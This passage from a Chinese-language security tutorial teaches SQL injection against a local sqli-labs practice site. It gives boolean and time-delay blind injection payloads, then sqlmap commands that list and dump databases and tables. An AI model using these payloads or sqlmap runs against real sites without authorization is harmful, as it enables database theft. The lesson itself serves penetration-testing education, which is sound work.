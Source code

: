 **（7）盲注猜解字符串**

前面的示例都是在有错误回显的情况下，通过 SQL 注入获得我们想要的用户信息，但有时在渗透测试时，网站并没有错误回显，此时就只能去盲注猜解出数据库名、字段名和值等关键信息。盲注猜解字符串的主要方式有布尔型盲注和基于时间延迟盲注，相关的知识我在《06 \| SQL 注入：小心数据库被拖走（上）》中介绍过了。

```sql
布尔型盲注：
http://localhost/Less-2/?id=1 and ascii(substr((select database()),1,1))>110--+ 判断数据库名的第一个字符的 ascii 值是否大于 110('H')
基于时间延迟盲注：
http://localhost/Less-2/?id=1 union select if(SUBSTRING(password,1,4)='Dumb',sleep(5),1),2,3 from users--+ 提取密码前四个字符做判断，正确就延迟 5 秒，错误返回 1
```

### 自动化利用漏洞

手工注入是个体力活，效率很慢，如果能自动化地利用漏洞，就可以解放双手，省下不少时间。因此，通常我们不会使用手工注入的方式。

下面我就来介绍如何利用 sqlmap 实现 SQL 注入漏洞的自动化利用。

#### 使用 sqlmap 拖库

当前在 SQL 注入漏洞利用工具中，sqlmap 绝对是最常用的，前文也多次提到它，这里我们就尝试使用 sqlmap 实现拖库。

借助 sqlmap 我们可以通过简单的参数自动完成漏洞的利用，既不用记过多的 SQL 语句，也会更加高效。下面我会介绍一些常用的命令参数，通过这些参数，我们能实现注入自动化。具体的流程和手工注入一样，这里就不再赘述了。

**（1）使用 --dbs 参数获取数据库名称**（注意：这里需要 sudo，否则无法访问 docker 容器中的网站），示例命令如下：

```shell
./sqlmap.py -u "http://localhost/Less-2/?id=1" --dbs
```

<Image alt="Drawing 11.png" src="https://s0.lgstatic.com/i/image2/M01/04/8C/CgpVE1_y7zKAPDYwAAHpwAOclsQ168.png"/>  
图 12：使用 --dbs 参数获取数据库名称

输出的对应 payload 也是学习各种注入技巧的参考资料，对于渗透测试者、漏洞扫描器、WAF 开发者需要研究的重要资源，有些扫描器干脆直接用 sqlmap，或者把它的所有 payload 扣出来使用。

**（2）使用 --current-db 参数获取当前数据库**，示例命令如下：

```shell
./sqlmap.py -u "http://localhost/Less-2/?id=1" --current-db
```

<Image alt="Drawing 12.png" src="https://s0.lgstatic.com/i/image2/M01/04/8C/CgpVE1_y7zqAXr4gAABQGh6pVVo584.png"/>  
图 13：使用 --current-db 参数获取当前数据库

**（3）使用 --tables 参数枚举表名**，示例命令如下 ：

```shell
./sqlmap.py -u "http://localhost/Less-2/?id=1" --tables -D 'security'
```

<Image alt="Drawing 13.png" src="https://s0.lgstatic.com/i/image2/M01/04/8C/CgpVE1_y70GAQ0C0AACYCKSvjig335.png"/>  
图 14：使用 --tables 参数枚举表名
